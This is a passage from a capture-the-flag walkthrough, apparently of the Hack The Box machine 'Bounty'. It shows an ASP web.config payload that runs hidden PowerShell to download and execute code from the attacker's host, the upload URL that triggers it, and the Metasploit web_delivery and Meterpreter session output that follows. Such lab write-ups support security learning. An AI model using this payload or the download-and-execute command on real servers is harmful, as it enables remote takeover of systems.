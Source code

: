 ```xml
output = oS.exec("cmd.exe > /c powershell.exe -nop -w hidden -c $B=new-object net.webclient;$B.proxy=[Net.WebRequest]::GetSystemWebProxy();$B.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $B.downloadstring('http://10.10.13.75:8080/G783OPiDR3Em');").stdout.readall
Response.write("Powershell: " & vbCrLf & output & vbCrLf & vbCrLf)
%>
```

#### Upload web.config and access it

Now we have to upload our **web.config** file and visit the URL <http://10.10.10.93/uploadedfiles/web.config> to trigger the payload.

#### Back to msfconsole

We should see the following inside **msfconsole**:

```bash
[*] 10.10.10.93      web_delivery - Delivering Payload
[*] Sending stage (206403 bytes) to 10.10.10.93
[*] Meterpreter session 1 opened (10.10.13.75:4444 -> 10.10.10.93:49158) at 2018-10-28 19:23:06 +0100
```

A session has been opened on the remote target. We can list every opened sessions with `sessions -l`

```bash
msf exploit(multi/script/web_delivery) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information             Connection
  --  ----  ----                     -----------             ----------
  1         meterpreter x64/windows  BOUNTY\merlin @ BOUNTY  10.10.13.75:4444 -> 10.10.10.93:49158 (10.10.10.93)
```

As you can see, we are currently connected as **merlin** on the **BOUNTY** machine.

#### Gimme this user.txt

It's now time to retrieve the **user flag**.

Inside **msfconsole**, we can move into the session number 1 with `sessions -i 1` and we should arrive in a meterpreter shell.

```bash
msf exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > 
```

From here, we can use a few shell commands (the full list can be displayed by typing `help` or `?`) or type `shell` and dive into the classical Windows command prompt.
